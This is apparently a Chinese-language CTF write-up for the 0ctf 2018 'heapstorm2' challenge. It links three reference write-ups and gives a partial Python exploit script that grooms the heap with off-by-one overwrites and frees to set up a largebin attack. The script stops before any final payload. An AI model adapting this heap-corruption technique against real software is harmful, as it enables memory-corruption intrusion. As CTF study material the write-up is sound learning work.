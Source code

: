 
### 0ctf_2018_heapstorm2
分析先咕了，等完全理解了再补充。先放一些参考的 wp：
- [wp1](http://eternalsakura13.com/2018/04/03/heapstorm2/)
- [wp2](https://veritas501.space/2018/04/11/Largebin%20%E5%AD%A6%E4%B9%A0/)
- [wp3](https://github.com/willinin/0ctf2018/blob/master/heapstorm2/heapstorm2.md)


```python
def add(size):
    sl('1')
    ru('Size:')
    sl('%d' % size)
    ru('Command:')

def edit(index, content):
    sl('2')
    sla('Index:',str(index))
    sla('Size:', str(len(content)))
    sa('Content:',content)
    ru('Command:')

def free(index):
    sl('3')
    sla('Index:',str(index))
    ru('Command:')

def show(index):
    sl('4')
    sla('Index:', str(index))
    m = ru('Command:')
    pos1 = m.find(']: ') + len(']: ')
    pos2 = m.find('\n1.')
    return m[pos1:pos2]

add(0x18) # 0
add(0x508) # 1
add(0x18) # 2
edit(1,flat('a'*0x4f0,0x500))

add(0x18) # 3
add(0x508) # 4
add(0x18) # 5
edit(4,flat('a'*0x4f0,0x500))
add(0x18) # 6

free(1)
edit(0,'a'*(0x18-12))
add(0x18) # 1
add(0x4d8) # 7
free(1)
free(2)
add(0x38) # 1
add(0x4e8) # 2

free(4)
edit(3,'a'*(0x18-12))
add(0x18) # 4
add(0x4d8) # 8
free(4)
free(5)
add(0x48) # 4

free(2)
```